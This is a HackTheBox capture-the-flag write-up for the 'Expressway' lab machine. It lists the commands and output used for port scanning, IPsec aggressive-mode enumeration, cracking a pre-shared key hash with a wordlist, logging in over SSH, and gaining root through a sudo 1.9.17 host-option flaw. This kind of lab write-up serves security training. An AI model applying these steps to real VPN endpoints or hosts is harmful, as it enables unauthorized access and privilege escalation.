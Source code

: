 ```yaml
---
layout: post
title: Expressway
subtitle: HackTheBox - Expressway
description: Enumerate services, scan TCP/UDP ports, exploit IPsec vulnerabilities, and escalate privileges to capture flags.
image: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
optimized_image: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
tags:
  - HackTheBox
  - IPsec Vulnerability
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-07 00:00
paginate: true
---
```


# Expressway
[Expressway on HackTheBox](https://app.hackthebox.com/machines/736)

![Expressway Banner](https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png)

## Objectives
1. Enumerate UDP/TCP ports
2. Extract SSH credentials via IPsec
3. Gain initial access through SSH
4. Identify privilege escalation vectors
5. Capture user and root flags

## Reconnaissance

### Nmap Scan
Initial TCP port scan:
```bash
nmap -p1-65535 --min-rate 1000 10.10.11.87
```

**Results**:
```
PORT   STATE SERVICE
22/tcp open  ssh
```

UDP port scan:
```bash
nmap -p1-65535 -sU --min-rate 1000 10.10.11.87
```

**Results**:
```
PORT      STATE         SERVICE
9/udp     open|filtered discard
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
520/udp   open|filtered route
626/udp   open|filtered serialnumberd
997/udp   open|filtered maitrd
1030/udp  open|filtered iad1
3703/udp  open|filtered adobeserver-3
4500/udp  open|filtered nat-t-ike
49186/udp open|filtered unknown
49192/udp open|filtered unknown
49200/udp open|filtered unknown
```

**Key Findings**:
- **Port 500/UDP**: Running ISAKMP (IPsec VPN). All other ports filtered except 500.

## IPsec VPN Enumeration

Scan IPsec service:
```bash
nmap -sU -p 500 --script ike-version 10.10.11.87
```

**Results**:
```
PORT    STATE SERVICE
500/udp open  isakmp
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0
```

**Findings**:
- XAUTH and IKE version 1.0 detected.

### Identify VPN Vendor & Configuration
```bash
ike-scan -M -A 10.10.11.87
```

**Results**:
```
DR=(CKY-R=dc48124ff9415a5d)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
KeyExchange(128 bytes)
Nonce(32 bytes)
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=09002689dfd6b712 (XAUTH)
VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Hash(20 bytes)
```

**Findings**:
- SSH user: `ike@expressway.htb`

### Extract VPN Group Name & PSK Hash
```bash
ike-scan -A --pskcrack 10.10.11.87
```

**Results**:
```
10.10.11.87 Aggressive Mode Handshake returned
HDR=(CKY-R=dcbe8baace3526f4)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
KeyExchange(128 bytes)
Nonce(32 bytes)
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=09002689dfd6b712 (XAUTH)
VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Hash(20 bytes)
IKE PSK parameters:
eaed8f70947e12fd6067583f9bf689fa787958c4c1f268c416e87ffaf58091972cd2fb68abb7fc72760df90919220443dc5999323373d7017333d2350d89591a56b7bb5fa4bf926f4ef6515a6ba649cc2d6363806bda1156f327a66d15ce729ae4f4bfd4b7adfb06116f6bd3d7a7910398c0d49d3d2ff682ae1bb28a8ca1aad8:366a903bcde43282003ba2039824c675a772350bfcc123ce83bc5f51e422403b2de73fc7e67905b7d3cc5cd856c074770f4c2418fab912c263cdb5b0969fcf68dff33fdcdc007c32a2087340e3982788729b4c6ed74e91454a14ae775440fc0671891da8622fb898d5c5fd3326ea41f2ae0786c629fcf84241e4b492da11144b:dcbe8baace3526f4:7a0abdc5d7de2ce4:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:0bdf118d960e20e50e150b712ec195d1eb36273b:df9b7b0dec195f4609339273ea7eba684c86a2cd76a2e4a306827bf5ab53dc14:6bc5d6a1228177e114af9539ffd18c5aeb014df3
```

Crack the PSK hash:
```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash1.txt
```

**Results**:
```
Starting psk-crack [ike-scan 1.9.6]
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 6bc5d6a1228177e114af9539ffd18c5aeb014df3
```

**Credentials**:
- User: `ike@expressway.htb`
- Password: `freakingrockstarontheroad`

## Initial Access via SSH
```bash
ssh ike@10.10.11.87
```

**Output**:
```
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.10.16.32
ike@10.10.11.87's password: 
Last login: Tue Oct 7 17:06:04 BST 2025 from 10.10.14.115
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
ike@expressway:~$
```

### User Flag
```bash
ike@expressway:~$ ls
es.sh user.txt
ike@expressway:~$ cat user.txt
6e89cbec6...
```

## Privilege Escalation

### System Exploration
Found a `README` file in `/var/log`:
```bash
ike@expressway:/var/log$ cat README
You are looking for the traditional text log files in /var/log, and they are gone?
Here's an explanation on what's going on:
You are running a systemd-based OS where traditional syslog has been replaced with the Journal...
```

Log analysis revealed an internal hostname:
```bash
753229688.902 0 192.168.68.50 TCP_DENIED/403 3807 GET http://offramp.expressway.htb - HIER_NONE/- text/html
```

### Sudo Vulnerability
Check sudo version:
```bash
ike@expressway:/$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

**Vulnerability**: Sudo 1.9.17 Host Option - Elevation of Privilege
- Allows execution of commands permitted by a remote host rule on the local system.

Exploit using the internal hostname:
```bash
ike@expressway:/$ sudo -h offramp.expressway.htb -i
root@expressway:~#
```

### Root Flag
```bash
root@expressway:~# ls
root.txt
root@expressway:~# cat root.txt
2f5481da2fed7...
```

## Conclusion
Successfully exploited an IPsec VPN to gain SSH credentials, accessed the system as user `ike`, and escalated privileges to root using a sudo vulnerability tied to an internal hostname.

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [Linkedin](https://www.linkedin.com/in/t4t4r1s/)
- [x](https://x.com/T4T4R1S)
```